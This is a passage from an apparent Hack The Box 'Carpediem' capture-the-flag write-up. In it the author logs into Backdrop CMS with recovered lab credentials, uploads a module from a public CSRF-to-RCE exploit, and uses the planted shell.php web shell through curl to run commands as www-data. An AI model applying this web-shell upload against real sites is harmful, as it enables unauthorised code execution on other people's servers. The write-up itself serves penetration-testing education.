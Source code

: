 We're now able to login to _backdrop_ using credentials `jpardella:tGPN6AmJDZwYWdhY`
![](/assets/images/htb-writeup-carpediem/carpediem20.png)

Googling for _"Backdrop cms exploit github"_ the first hit we get is a [CSRF to RCE](https://github.com/V1n1v131r4/CSRF-to-RCE-on-Backdrop-CMS) exploit for version 1.20. Looking in backdrop under _Reports_ > _Status Report_ we see that our instance is running version 1.21.4, lets test it anyway.

Go to _Functionality_ > _Install new modules_ > _Manual Installation_ > _Upload_, once uploaded make sure to enable the newly added module. It will be located at the bottom of the box _Fields_:

![](/assets/images/htb-writeup-carpediem/carpediem21.png)

Testing it out and yes, we do have code execution:
```bash
➜  carpediem curl -k https://localhost:8002/modules/reference/shell.php\?cmd\=id      
uid=33(www-data) gid=33(www-data) groups=33(www-data)
➜  carpediem curl -k https://localhost:8002/modules/reference/shell.php\?cmd\=hostname
90c7f522b842
➜  carpediem curl -k https://localhost:8002/modules/reference/shell.php\?cmd\=ls%20-al
total 76
drwxr-xr-x 4 www-data www-data  4096 Sep 14 00:55 .
drwxr-xr-x 3 www-data www-data  4096 Sep 14 00:55 ..
-rw-r--r-- 1 www-data www-data 18092 Sep 14 00:55 LICENSE.txt
-rw-r--r-- 1 www-data www-data  1768 Sep 14 00:55 README.md
-rw-r--r-- 1 www-data www-data   323 Sep 14 00:55 reference.info
-rw-r--r-- 1 www-data www-data   484 Sep 14 00:55 reference.install
-rw-r--r-- 1 www-data www-data 23598 Sep 14 00:55 reference.module
-rw-r--r-- 1 www-data www-data    30 Sep 14 00:55 shell.php
```